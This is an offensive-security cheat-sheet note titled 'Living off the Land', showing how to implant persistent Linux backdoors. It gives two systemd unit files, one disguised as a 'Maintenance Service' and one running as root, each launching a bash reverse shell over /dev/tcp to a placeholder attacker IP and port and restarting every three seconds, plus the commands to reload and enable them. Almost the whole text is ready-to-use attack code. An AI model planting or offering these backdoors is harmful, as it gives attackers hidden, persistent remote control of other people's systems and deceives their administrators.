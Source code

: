 # Living off the Land

## 01 - Implant

Non-elevated system daemon.

```
$ cat /etc/systemd/system/maintenance-check.service
[Unit]
Description=Maintenance Service

[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i >&/dev/tcp/<IP>/<PORT> 0>&1'
Restart=always
RestartSec=3

[Install]
WantedBy=multi-user.target
```

Elevated system daemon.

```
$ cat /etc/systemd/system/rooted-backdoor.service
[Unit]
Description=Backdoor service

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >&/dev/tcp/<IP>/<PORT> 0>&1'
Restart=always
RestartSec=3

[Install]
WantedBy=multi-user.target
```

Reload all daemon services

```
$ sudo systemctl daemon-reload
```

Enable service daemon.

```
$ sudo systemctl enable filename.service
```

---
## References

- [[Linux Post Exploitation Persistence References]]